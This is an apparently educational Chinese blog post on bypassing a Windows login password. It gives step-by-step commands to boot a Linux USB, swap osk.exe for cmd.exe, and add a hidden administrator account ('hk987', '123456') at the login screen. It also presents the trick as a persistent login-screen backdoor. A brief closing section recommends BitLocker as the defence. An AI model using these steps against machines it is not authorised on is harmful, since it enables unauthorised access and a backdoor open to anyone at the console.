


[Win基础]-3-用Linux启动U盘破解Windows开机密码
引言
这篇文章主要介绍如何使用Linux系统U盘破解Windows开机密码，以及如何防范。
文章目录
0×1.Linux启动U盘破解Windows开机密码思路
此方法适用于WindowsXP/7/8/10/11，在往后的版本中，只要windows登陆界面的“轻松访问”（Utilman）功能不被取消，就能使用这个破解方法。
在WindowsXP往后的操作系统中，启动界面加入了一项叫做"轻松访问"（Utilman）的功能，这项功能的主要目的，是帮助一些视力、听力不太好，或者不能用键盘输入的用户完成一些操作。 这个叫做"轻松访问"的功能能够在输入密码前被执行，这就给我们提供了一个思路，如果我们替换"轻松访问"中的某项功能，那么就能实现在输入密码前执行替换过后的某个程序，即可达到破解密码的目的。 下面为WIN11的启动界面（Win7同样有这个图标，只是弹出来的界面不一样，但是同样能看到"屏幕键盘"，XP需要按键盘上的"Win键+U"即可打开轻松访问。注意：精简版的系统可能将这个功能删除，这时候可以将cmd.exe复制成Utilman.exe，只要在开机界面调用“轻松访问”功能即可打开cmd，之所以替换屏幕键盘osk.exe，是因为这样更加隐蔽。）
这些功能也经常被hack利用，用作登录界面的后门维持。
***具体步骤：
1.如果能够接触到目标机器，用linux启动u盘启动，挂载机器的C盘到u盘系统的/mnt目录下，然后
//在U盘的linux系统终端中先挂载目标系统盘（如果你不知道哪个是系统盘，可以一个个挂载，直到找到其中包含Windows文件夹的那一个分区，假设这里是/dev/nvme0n1p1这个分区）
mount /dev/nvme0n1p1 /mnt
//进入系统system32目录
cd /mnt/windows/system32
//将cmd.exe复制替换成osk.exe(先备份osk.exe方便恢复)
cp osk.exe osk.hk987
//将原有的osk.exe删除
rm -rf osk.exe
//复制cmd伪装成osk
cp cmd.exe osk.exe
//重启系统，然后拔出u盘，将启动选项调整成从硬盘启动
reboot
2.进入windows系统登录界面后，参考上面那张图片，在登录界面开启屏幕键盘，就能够看到熟悉的cmd黑窗口了
//在cmd窗口中，创建用户hk987，密码是123456
net user hk987 123456 /add
//将创建的用户放入超级管理员组
net localgroup administrators hk987 /add
//然后关掉这个cmd创建，尝试用hk987登录吧
如果是得到的windows系统的shell，想留一个屏幕键盘的后门，同样可以这样替换，但这个登录界面的后门是没有保护的，每个人都能使用它。
0×2.windows如何防范U盘破解系统密码
windows10往后的操作系统内置了BitLocker功能，如果对系统盘开启这个功能，就能防止通过U盘读取系统盘，这样U盘系统就无法去读取系统盘文件夹系统，从而无法替换登录界面的功能了。
但是开启Bitlocker一定别忘了恢复秘钥，否则无法解密数据，到文章发布这个时间点为止（2024.10.29），还很难破解这种分区加密。